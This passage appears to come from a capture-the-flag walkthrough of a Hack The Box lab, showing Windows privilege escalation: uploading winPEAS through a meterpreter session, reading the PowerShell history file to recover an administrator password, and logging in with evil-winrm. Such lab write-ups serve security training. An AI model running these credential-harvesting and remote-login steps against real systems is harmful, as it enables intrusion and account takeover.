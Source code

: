      ```bash
     root@kali[~]> wget https://github.com/carlospolop/PEASS-ng/releases/download/20220911/winPEASx64.exe
     meterpreter> upload winPEASx64.exe
     ```

15. Run it via *PowerShell*

     ```
     meterpreter> shell
     C:\Users\sql_svc\Documents> .\winPEASx64.exe
     ```

16. After running you got *many exploits information*, as a **service account**, it is worth to check the frequently access files or executed commands. Let's go check the **PowerShell history file**. The path is the following:

     ![](../assets/img/htb-starting-point/21.png)

     ```powershell
     type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
     ```

     ![](../assets/img/htb-starting-point/22.png)

     User `administrator` with password `MEGACORP_4dm1n!!` is there.

17. As **port 5985 (Microsoft Windows Remote Management)** is opened, now use `evil-winrm` to login as `administrator`

     ```bash
     evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i TARGET_IP
     ```

      ![](../assets/img/htb-starting-point/23.png)
